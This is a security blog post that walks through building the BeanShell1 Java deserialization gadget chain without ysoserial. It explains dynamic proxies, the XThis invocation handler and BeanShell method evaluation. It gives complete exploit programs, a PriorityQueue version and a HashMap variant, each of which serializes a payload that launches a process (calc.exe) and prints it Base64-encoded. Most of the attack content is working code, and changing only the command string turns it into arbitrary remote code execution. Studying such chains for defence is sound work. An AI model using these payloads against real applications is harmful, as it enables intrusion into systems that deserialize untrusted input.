






BeanShell1
In this blog post we will talk about the BeanShell1 gadget chain and how we can build it without the ysoserial tool.
This chain is somewhat similar to the CommonsCollection2 chain.
As we know, in the CommonsCollection2 chain we use PriorityQueue and Transforming Comparator to reach Runtime.getRuntime().exec().
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.shiftdownOperator()
Comparator.compare()
TransformingComparator.compare()
InvokerTransformer.transform()
TemplatesImpl.newTransform()
Loads our byteCode and executes it which indeed calls
Runtime.getRuntime().exec(cmd)
In this gadget, we will use the PriorityQueue but instead of Transforming Comparator, we will use something else.
So if you have not read the CommonsCollection2 blog, it's a good time to go through it.
Now let's jump into this gadget.
import java.lang.reflect.InvocationHandler; import java.lang.reflect.Proxy; import java.lang.reflect.Field; import java.util.Comparator; import java.util.PriorityQueue; import java.util.Base64; import java.io.ByteArrayOutputStream; import java.io.ObjectOutputStream; import bsh.Interpreter; import bsh.XThis; class Exploit { public static void main(String[] args) { try { //Registering the Compare Method as per Comparator.compare() signature String payload = "compare(Object foo, Object bar) {" + " new java.lang.ProcessBuilder(new String[]{\"calc.exe\"}).start();" + " return new Integer(1);" + "}"; Interpreter interpreter = new Interpreter(); interpreter.eval(payload); //Creating XThis Object , so that we can use reflection to access the Handler() which have an Invoke() XThis xThis = new XThis(interpreter.getNameSpace(), interpreter); Field invocationHandlerField = XThis.class.getDeclaredField("invocationHandler"); invocationHandlerField.setAccessible(true); InvocationHandler handler = (InvocationHandler) invocationHandlerField.get(xThis); // Step 3: Create a dynamic proxy implementing Comparator Comparator<?> comparator = (Comparator<?>) Proxy.newProxyInstance( Comparator.class.getClassLoader(), new Class<?>[]{ Comparator.class }, handler ); //Creating PriorityQueue which will call the Comparator.compare() PriorityQueue<Object> priorityQueue = new PriorityQueue<>(2, (Comparator<Object>) comparator); priorityQueue.add(1); priorityQueue.add(2); /*Forget the below For now Field queueField = PriorityQueue.class.getDeclaredField("queue"); queueField.setAccessible(true); queueField.set(priorityQueue, new Object[]{ 11, 11 }); Field sizeField = PriorityQueue.class.getDeclaredField("size"); sizeField.setAccessible(true); sizeField.set(priorityQueue, 2); // Step 5: Serialize the PriorityQueue ByteArrayOutputStream bos = new ByteArrayOutputStream(); ObjectOutputStream oos = new ObjectOutputStream(bos); oos.writeObject(priorityQueue); oos.close(); // Step 6: Base64 encode and print String encoded = Base64.getEncoder().encodeToString(bos.toByteArray()); System.out.println(encoded); */ } catch (Exception e) { e.printStackTrace(); } } }
The above code will pop a calculator.
Before we dive in, let's understand Dynamic Proxy.
It is a Proxy mechanism in Java in which you can call any method present on a class.
So for example,
If you want to call the display method in the below class
public class Sample implements Displayable { @Override public void display() { System.out.println("display method is called"); } public static void main(String[] args) { Sample s = new Sample(); s.display(); } }
and there exists another interface called Displayable
public interface Displayable {
void display();
}you can use Dynamic Proxy to do so.
However, in order to do so, there has to be another class that would implement an InvocationHandler and a method called invoke(), and that invoke() should contain the logic to call this display method.
So let's say there is a class called AnotherClass which looks like below
import java.lang.reflect.InvocationHandler; import java.lang.reflect.Method; public class AnotherClass implements InvocationHandler { private final Object target; public AnotherClass(Object target) { this.target = target; } @Override public Object invoke(Object proxy, Method method, Object[] args) throws Throwable { System.out.println("Dangerous Function Getting called"); if ("display".equals(method.getName()) && method.getParameterCount() == 0) { Method m = target.getClass().getMethod("display"); return m.invoke(target); } return method.invoke(target, args); } }
Now we can call this using the below code
import java.lang.reflect.Proxy; public class Demo { public static void main(String[] args) { Sample real = new Sample(); InvocationHandler handler = new AnotherClass(real); Displayable proxy = (Displayable) Proxy.newProxyInstance( Displayable.class.getClassLoader(), new Class<?>[]{ Displayable.class }, handler ); proxy.display(); } }
Note: Proxy.newProxyInstance() works only on interfaces and not on concrete classes.
As you can see, using the Displayable interface and AnotherClass as a handler, we are able to call the display method.
One thing to note here is that even though we have successfully called the display() from the Sample class, the invoke method present on AnotherClass also gets executed.
So if the invoke function present on AnotherClass does any dangerous operation, that will also get called.
Now let's take a look into the gadget.

We are using the XThis object as an InvocationHandler.
If you take a look into the XThis class,

But why do we need to do this?
Let's take a dive into the invoke() here.
The invoke() calls InvokeImpl.

The above code checks various things - if the method name equals toString(), it does some operation, but we are not interested in this.
At the end it calls InvokeMethod().
This method is present on its super class, that is This.java

At the tail of the class we get the bshMethod name from namespace.getMethod and if it is not null we call bshMethod.invoke().
This method further does some checks and the code finally traverses to invokeImpl().
And methodBody.eval() gets called.

This is the function which parses our AST and executes our code.
So in short, if we can reach the invoke() present on XThis.java we can reach methodBody.eval and get our code executed.
Now let's understand how we can reach here.
On XThis class at the beginning
Which means if we create a Dynamic Proxy with the Handler() object as the handler, we can reach the invoke() and get our code executed.
As you can see, the InvocationHandler object, which is an object of Handler(), is a transient type, which means it cannot be directly serialized.
So we are using Reflection to set the field accessible and then getting the Handler object and assigning it as a handler so that we can use it with the Dynamic Proxy.
Now once we set the Dynamic Proxy, we need a class which will call any method via this Dynamic Proxy. We are not bound to use PriorityQueue here and can use any class that has a custom readObject call and calls certain methods inside it on the object passed by us.
We will see that in our extra miles, but for now let's stick to PriorityQueue.
So in PriorityQueue, we have a readObject call which indeed calls the compare() on the object we pass, which means if we pass the Dynamic Proxy as a comparator to the PriorityQueue, the PriorityQueue is going to call compare() on the Dynamic Proxy, but the Dynamic Proxy will call the compare method via the Invoke method of the Handler class, and as we saw, once we reach the Handler class through our AST syntax, we can achieve code execution.
Now let's head back to stage 1 again to understand how we are propagating our AST symbols to the invoke method.
So in BeanShell, we have a constructor that takes 2 things,
1. Namespace
2. An interpreter
The interpreter has an eval() which will simply register our AST expression, and once we use that XThis constructor, the interpreter and the namespace get set.
Let's see a small example:
import bsh.Interpreter; public class test { public static void main(String[] args) throws Exception { Interpreter interpreter = new Interpreter(); // Rule loaded from a config file or database at runtime String rule = "void evaluate() {" + " System.out.println(\"GETTING EXECUTED\");" + "}"; interpreter.eval(rule); interpreter.eval("evaluate()"); } }

You may ask, why on the first eval the code did not get executed, but on the 2nd eval it did get executed.
This interpreter is the same as Java.
So in a Java file, just because you define a function doesn't mean it will get executed, but if you call it, it will get executed.
Similarly, on the first eval, the function is getting defined, and on the 2nd eval we are calling it.
Now if you check our payload, we are doing something similar - at first we are simply defining what the compare function would be, and when the PriorityQueue gets deserialized, shiftdownOperator calls the compare() function.
This will flow to our InvocationHandler which will call the Invoke() → InvokeImpl() → InvokeMethod → InvokeImpl → methodBody.eval().
And this is where the compare function flows and since we have declared our function, when compare() is called, our compare gets called and we achieve code execution.
So the below code can be used to get a Base64 string of the gadget chain.
import java.lang.reflect.InvocationHandler; import java.lang.reflect.Proxy; import java.lang.reflect.Field; import java.util.Comparator; import java.util.PriorityQueue; import java.util.Base64; import java.io.ByteArrayOutputStream; import java.io.ObjectOutputStream; import bsh.Interpreter; import bsh.XThis; class Exploit { public static void main(String[] args) { try { //Registering the Compare Method as per Comparator.compare() signature String payload = "compare(Object foo, Object bar) {" + " new java.lang.ProcessBuilder(new String[]{\"calc.exe\"}).start();" + " return new Integer(1);" + "}"; Interpreter interpreter = new Interpreter(); interpreter.eval(payload); //Creating XThis Object , so that we can use reflection to access the Handler() which have an Invoke() XThis xThis = new XThis(interpreter.getNameSpace(), interpreter); Field invocationHandlerField = XThis.class.getDeclaredField("invocationHandler"); invocationHandlerField.setAccessible(true); InvocationHandler handler = (InvocationHandler) invocationHandlerField.get(xThis); // Step 3: Create a dynamic proxy implementing Comparator Comparator<?> comparator = (Comparator<?>) Proxy.newProxyInstance( Comparator.class.getClassLoader(), new Class<?>[]{ Comparator.class }, handler ); //Creating PriorityQueue which will call the Comparator.compare() PriorityQueue<Object> priorityQueue = new PriorityQueue<>(2, (Comparator<Object>) comparator); Field queueField = PriorityQueue.class.getDeclaredField("queue"); queueField.setAccessible(true); queueField.set(priorityQueue, new Object[]{ 11, 11 }); Field sizeField = PriorityQueue.class.getDeclaredField("size"); sizeField.setAccessible(true); sizeField.set(priorityQueue, 2); // Step 5: Serialize the PriorityQueue ByteArrayOutputStream bos = new ByteArrayOutputStream(); ObjectOutputStream oos = new ObjectOutputStream(bos); oos.writeObject(priorityQueue); oos.close(); // Step 6: Base64 encode and print String encoded = Base64.getEncoder().encodeToString(bos.toByteArray()); System.out.println(encoded); } catch (Exception e) { e.printStackTrace(); } } }
Extra Miles:
So as we discussed, we are not bound to use the PriorityQueue.
So let's use the HashMap.
import java.lang.reflect.InvocationHandler; import java.lang.reflect.Proxy; import java.lang.reflect.Field; import java.util.Base64; import java.util.Comparator; import java.util.HashMap; import java.io.ByteArrayOutputStream; import java.io.ObjectOutputStream; import bsh.Interpreter; import bsh.XThis; class exploit { public static void main(String[] args) { try { String payload = "int hashCode() {" + "new java.lang.ProcessBuilder(new String[]{\"calc.exe\"}).start();" + "return 1;}"; // Creating BeanShell interpreter and evaluating the payload Interpreter interpreter = new Interpreter(); interpreter.eval(payload); // InvocationHander Extraction using Refelction XThis xThis = new XThis(interpreter.getNameSpace(), interpreter); Field invocationHandlerField = XThis.class.getDeclaredField("invocationHandler"); invocationHandlerField.setAccessible(true); InvocationHandler handler = (InvocationHandler) invocationHandlerField.get(xThis); // Creating Dynamic Proxy which will be used in the HashMap Key Object key = Proxy.newProxyInstance( HashMap.class.getClassLoader(), new Class<?>[]{ Comparator.class }, handler ); // Insert the proxy key into the HashMap (triggers hashCode on deserialization) HashMap<Object, String> hashMap = new HashMap<>(); hashMap.put(key, "test"); ByteArrayOutputStream bos = new ByteArrayOutputStream(); ObjectOutputStream oos = new ObjectOutputStream(bos); oos.writeObject(hashMap); oos.close(); String encoded = Base64.getEncoder().encodeToString(bos.toByteArray()); System.out.println(encoded); } catch (Exception e) { e.printStackTrace(); } } }
In the above code, we have changed our AST signature and the dynamic proxy.
When we deserialize the HashMap class, the readObject() present on the HashMap eventually flows to the hashCode function of the key.
So we have created the AST symbol that matches the signature of hashCode() and we have changed our Dynamic Proxy to use HashMap.class with the invocationHandler being the same.
If you pay close attention, the interface used on the dynamic proxy is Comparator.class instead of HashMap.class or any other interface that defines hashCode. In fact, it does not matter which interface you set here.
And the reason is simple.
So in a Dynamic Proxy, the interface tells Java what the Proxy is pretending to be.
So if there are no checks on the class it's pretending to be, then we can set any random interface (it does not need to be serializable).
In the case of PriorityQueue, the class needs a Comparator - anything else will fail.
But in the case of HashMap and hashCode, there are no such checks, and in fact the key itself is of Object type.
So this is how the BeanShell1 Gadget works and how we can improvise it.
Hope you like it.
That's it for today.
Thanks for reading.
Happy Hacking.
You can connect with me at: